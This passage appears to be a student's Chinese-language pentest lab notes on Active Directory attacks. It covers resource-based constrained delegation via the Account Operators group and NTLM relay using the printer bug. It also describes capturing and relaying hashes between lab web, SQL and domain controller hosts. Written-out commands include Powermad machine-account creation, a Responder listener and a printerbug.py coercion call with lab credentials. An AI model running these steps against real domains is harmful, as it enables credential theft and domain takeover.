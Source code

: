 
![1733656214337](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942268.png)



 条件：被控用户属于Acount Operators组的用户账户,因为这组里面的成员可修改域内任意主机的msDS-AllowedToActOnBehalfOfOtherIdentity属性。(除DC)，然后这里查询当前后发现被控机用户刚好在这组内。下面思路基本一样，添加xiaodiB用户，获取sid值。代理，获取票据，导入，建立连接

加ao组后：

![1733656511526](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942269.png)

将webadmin加入ao组前后前使用查看命令------判断有没有利用条件：

![1733656735966](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942270.png)

此时ao组成员webadmin刚好为被控机，所以可以利用，后续和前面一样，主要就是要有能创建用户的权限。能执行第一步：使用PowerMad工具创建机器账户powershell Import-Module .\Powermad.ps1;New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force) ，后面一样

#### 3：HTLM Relay

结合HTLM Relay攻击。利用漏洞

1、能创建机器账户

2、目标开启打印机服务

 翻车~      kali监听，然后利用打印机漏洞让DC强制访问被控机，得到hash。后面利用hash生成票据。。。。

条件：

![1733661927163](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942271.png)

这里是使用ntlmrelayx工具responder -I eth1 -wd进行监听，但是需要代理，因为要在同一个网段里才能监听到，然后用  python printerbug.py xiaodi.local/webadmin:admin!@#45@(DCip)   (kali ip )  ,强制让kali访问监听的得到DC的hash，

# 184：重放攻击

中间人攻击，NTML、重放攻击。

捕获，重放，爆破           kali环境已配好，3个网卡，既能和本机通讯，也能和god内网通讯

  捕获，用kali (配置时候记得先拍个快照)，一般用钓鱼 ，让对方访问（被动方式）。用得到的hash值可以重放， kali 监听webserver，sqlserver执行访问kali的命令（net use  ip(kali)会将自己的用户密码给kali），然后得到web的回弹。kali就是做的是中继重放，然后给了web，web比对后和sql密码一致，执行了kali重放过来的上线命令。31web   32sql  21 DC

kali监听，用web机进行通讯---因为web和kali的账户密码不匹配，所以没有成功，不过得到的hash可以用来比对重放：

![1733753163835](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942272.png)









 不同用户/相同用户都尝试,。web用administrator去尝试连接sql成功，反之sql也是。web用自己的webadmin用户去连接sql不行，拒绝。就是因为用户密码不同。这里就是web机重放攻击sql机
